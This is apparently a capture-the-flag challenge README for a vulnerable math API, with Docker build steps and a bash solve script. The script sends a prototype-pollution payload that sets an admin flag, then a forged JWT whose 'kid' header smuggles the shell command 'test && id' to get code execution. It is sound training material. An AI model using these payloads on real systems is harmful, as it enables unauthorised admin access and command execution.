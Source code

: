 # Karafé Kid

During a CTF, you come across this platform that serves as an API for solving math calculations related to CTFs. You find the site's behavior weird, and decide to take a look at the application's code.

- Authors : Nishacid, Elweth

## Build 

```bash
docker compose build --no-cache
docker compose up -d --force-recreate --remove-orphans
```

## Solve

```bash
#!/bin/bash

echo 'Sending proto pollution'
curl -ski -X POST 'http://0.0.0.0:3000/api/polynome' --header 'Content-Type: application/json' --data-raw '{"a": "2", "__proto__": { "CheckIfAdmin": true }}'

echo 'Sending RCE JWT'
curl -ski 'http://0.0.0.0:3000/admin' -H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6InRlc3QgJiYgaWQifQ.eyJ1c2VybmFtZSI6IlJvbmFsZCBSaXZlc3QiLCJhZG1pbiI6dHJ1ZSwiaWF0IjoxNjk3MTk3ODA2LCJleHAiOjE2OTcyMTIyMDZ9.0tG__bk90Y3jK5gng4a509AHF4LllMd5l8K5OwtRYho' | grep 'uid='
```